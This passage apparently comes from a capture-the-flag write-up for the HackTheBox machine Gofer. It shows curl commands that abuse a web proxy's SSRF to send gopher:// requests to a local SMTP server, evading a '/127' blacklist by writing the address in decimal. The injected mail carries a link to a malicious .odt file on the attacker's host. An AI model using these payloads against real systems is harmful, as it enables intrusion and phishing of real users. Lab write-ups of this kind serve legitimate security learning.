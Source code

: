 This payload almost works, except for the fact that the IP address is flagged:

{% code overflow="wrap" %}
```
$ curl -X 'POST' 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25/_MAIL%20FROM:iamanidiot%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:iamanidiot%40gofer.htb%0ASubject:hello%20testing%0AMessage:http://10.10.14.42/bad.odt%0A'
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```
{% endcode %}

We can specify the IP address in decimal mode in order to bypass this.&#x20;

{% code overflow="wrap" %}
```
$ curl -X 'POST' 'http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL%20FROM:iamanidiot%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:iamanidiot%40gofer.htb%0ASubject:hello%20testing%0AMessage:http://10.10.14.42/bad.odt%0A'
<!-- Welcome to Gofer proxy -->
```
{% endcode %}

However, even after bypassing the WAF, it doesn't work and I get no hits on my HTTP server. I URL decoded it and found that there was some syntax errors with the commands send to SMTP and also some control character errors, since we needed to send `\r\n` to register as an 'Enter' key.&#x20;

```
http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL FROM:iamanidiot@gofer.htb
RCPT To:jhudson@gofer.htb
DATA
From:iamanidiot@gofer.htb
Subject:hello testing
Message:http://10.10.14.42/bad.odt
```

I edited the payload a bit and URL encoded it to send the&#x20;

{% code overflow="wrap" %}
```
gopher://2130706433:25/xHELO \r\n
MAIL FROM:<iamanidiot@gofer.htb> \r\n
RCPT TO:<jhudson@gofer.htb> \r\n
DATA \r\n
From: <iamanidiot@gofer.htb> \r\n
To: <jhudson@gofer.htb> \r\n

Subject: gg \r\n
\r\n

<a href='http://10.10.14.42/test.odt>hello</a> \r\n
\r\n
\r\n



. \r\n
QUIT \r\n
```
{% endcode %}
